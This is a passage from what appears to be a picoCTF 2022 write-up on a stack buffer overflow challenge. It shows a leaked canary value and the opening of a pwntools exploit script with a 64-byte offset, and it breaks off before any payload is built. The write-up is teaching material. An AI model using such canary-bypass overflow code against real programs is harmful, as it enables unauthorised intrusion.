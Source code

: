 ![IMG](/assets/images/picoctf2022-binexp/bof3-leak_canary.png)

From the picture we can see we leaked the canary, now we just need to carefully assemble the structure of our payload:
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'error'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# canary token leaked by using leak_canary.py
canry = b"BiRd"

# Start program
io = start()

offset = 64  # Canary offset

```